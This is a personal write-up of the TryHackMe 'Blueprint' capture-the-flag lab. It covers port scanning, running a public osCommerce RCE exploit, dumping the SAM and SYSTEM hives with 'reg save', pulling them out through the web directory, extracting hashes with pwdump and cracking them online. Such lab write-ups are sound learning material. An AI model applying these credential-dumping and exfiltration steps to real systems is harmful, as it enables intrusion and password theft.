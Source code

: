 ## TryHackMe - Blueprint Methodology
> Completed 16th March 2022.

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on a general concept of the intrusion kill-chain:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objective

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Python

---
### Methodology
#### Objectives/Flags
 1. "Lab" user NTML hash decrypted
 2. root.txt

---
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
```
```
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
512/tcp   filtered exec
1152/tcp  filtered winpoplanmess
1875/tcp  filtered westell-stats
3306/tcp  open     mysql
4662/tcp  filtered edonkey
7741/tcp  filtered scriptview
8080/tcp  open     http-proxy
9010/tcp  filtered sdr
20005/tcp filtered btx
26214/tcp filtered unknown
27000/tcp filtered flexlm0
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49158/tcp open     unknown
49159/tcp open     unknown
49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
  http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```bash
whoami
  nt autheority\system
```
```bash
DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The filesystem was Windows and exploring user files I happened to come across my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likely going to be in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```bash
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included printing its contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stumbled upon a page which explained how this data could be exported from its registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```bash
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```bash
copy <missing-data> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website, I had found earlier I had to find a tool that was going to assist me.
```bash
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Crackstation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared my system it's resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped me connect the dots on reconnaissance and exploitation through finding online resources/code. Once I was in, most of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you?

#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity/documentation.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.
